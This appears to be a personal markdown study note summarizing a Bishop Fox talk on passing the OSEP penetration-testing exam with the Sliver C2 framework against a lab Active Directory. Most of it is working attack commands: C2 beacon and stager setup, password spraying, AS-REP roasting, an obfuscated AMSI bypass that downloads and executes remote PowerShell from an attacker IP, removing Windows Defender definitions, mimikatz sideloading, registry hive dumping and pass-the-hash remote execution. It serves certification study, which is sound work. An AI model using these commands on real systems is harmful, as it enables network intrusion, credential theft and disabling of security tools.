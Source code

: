 # TALK Ace The OSEP Exam with Sliver Framework


[YouTube - Ace the OSEP Exam with Sliver Framework](https://www.youtube.com/watch?v=YwiSqdIhl9g) description: *"www.bishopfox.com - Penetration testers are perpetual learners, constantly adapting and evolving. To excel in ethical hacking, one must master the art of emulating adversarial tactics in the most cutting-edge ways. Offensive security certifications serve as a testament to an ethical hacker's expertise, but with countless options and complex exams, how does one succeed? Tune in to learn how our senior security expert, Jon Guild, set himself up for success to pass the esteemed OSEP exam. Listen in to hear Jon’s first-hand experience using Bishop Fox’s Sliver C2 framework to practice pivoting, enumeration, lateral movement, and escalation in an ideal vulnerable lab environment. Jon will offer actionable tips and tricks to enhance your own preparedness for offensive security certification exams. Don't miss out on this opportunity to excel in the world of penetration testing. During this livestream, our senior security expert will share expertise on: • Using Sliver to prepare for and pass the OSEP exam • Developing and refining technical methodologies for exam success • Soft skills to make the most of study sessions and exam preparation"*

Including snippets and information from the blog post [bishopfox.com/blog/passing-the-osep-exam-using-sliver](https://bishopfox.com/blog/passing-the-osep-exam-using-sliver)

- Cybernetics HTB Labs for OSEP exam
- 80GBs and https://github.com/Orange-Cyberdefense/GOAD
- Build your own AD Lab
- Know your toolset. Do the CRTO 
- Have a reevaluation period
- Pass Exam, do not care about OPSEC care for the obtaining of flags 
- GitHub has a lot of awesome repositories! Make sure whatever you decide to use, you understand what it is doing and how you can modify it if needed.


- [[Active-Directory-Certificate-Services]] is very prominent in more modern 2023+ environment, check for the big lateral movement wins. 
- ChatGPT Games of Throne Username lists; the YouTube is based on DOAD, the exam report and exam may still have restrictions on AI Chat Bot usage.  


```
sliver > profiles new beacon --mtls 192.168.56.1:443 --format shellcode goad-shellcode-beacon
sliver > stage-listener -u tcp://192.168.56.1:8080 -p goad-shellcode-beacon
sliver > mtls -L 192.168.56.1 -l 443
```

General [[Active-Recon]] enumeration with `nmap`, `crackmapexec` 

Next check for [[ASREP-Roasting]]

Try Hodor:Hodor - to hold open some doors; surprising effective in corporate environments  
```bash
crackmapexec smb $ip -u users.txt -p users.txt --continue-on-success --no-brute
```

Impacket - [[Impacket-Cheatsheet]] is invaluable.
```bash
impacket-GetNPUsers -dc-ip $ip $domain.$tld/ -usersfiles users.txt -format hashcat 
```

[[AD-CS-Hacking]] with [[Crackmapexec-Cheatsheet]], Jon does these after first domain user
```bash
crackmapexec ldap -u $user -p $pass -M adcs 
```

Jon notes the importance of some of the LDAP modules 
```bash
crackmapexec ldap -L
enum_trusts
laps
maq # machineAccountQuota how many machine accounts a user can make; Default is 10 machines
```

Jon notes that some of the course material the C\# tooling and compiling workflow, whereas he used `impacket` and `sliver`

29:24 - https://www.youtube.com/watch?v=YwiSqdIhl9g


[[AMSI-Bypassing]] to download PowerShell code runner
```bash
powershell "$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344);IEX (new-object system.net.webclient).downloadstring('http://192.168.56.1:9000/sc.txt')"
```

[[Donut]] shellcode
```
donut /var/www/html/bin/PrintSpoofer64.exe -a 2 -b 2 -o /tmp/payload.bin -p '-c c:\windows\tasks\sph.exe'
```

Nuking AV
```go
execute -o cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

Execute sharp-hound-4
```go
sharp-hound-4 -- '-c all,GPOLocalGroup'
```

Sideload feature of Sliver to create a donut file for `mimikatz` without having too manually do it
```go
sideload /var/www/html/bin/mimikatz.exe "coffee" "exit"
```

`sharpview` or `sharpsh`, to  `Get-DomainGroup "Domain Admins"` from [[PowerView-Cheatsheet]]
```go
// Get-DomainGroup "Domain Admins"
sharpsh -- '-u http://192.168.56.1:9090/PowerView.ps1 -e -c RwBlAHQALQBEAG8AbQBhAGkAbgBHAHIAbwB1AHAAIAAiAEQAbwBtAGEAaQBuACAAQQBkAG0AaQBuAHMAIgA='
```

Migrate to different process
```go
migrate -p 6969
```

As Domain Admin dump the SAM, SECURITY Registry Hives from the [[Windows-Registry]]
```go
sharpsecdump '' -target=192.168.56.11
```

Use `atexec` from impacket - [[Impacket-Cheatsheet]] to 
```bash
impacket-atexec -hashes:"NTML" "$domain.$tld"/"Administrator"@"$ip" "powershell --enc $base64EncodedMethodToGetBeaconAndRecieveTheBacon"
```

## References

[YouTube - Ace the OSEP Exam with Sliver Framework](https://www.youtube.com/watch?v=YwiSqdIhl9g) 
[bishopfox.com/blog/passing-the-osep-exam-using-sliver](https://bishopfox.com/blog/passing-the-osep-exam-using-sliver)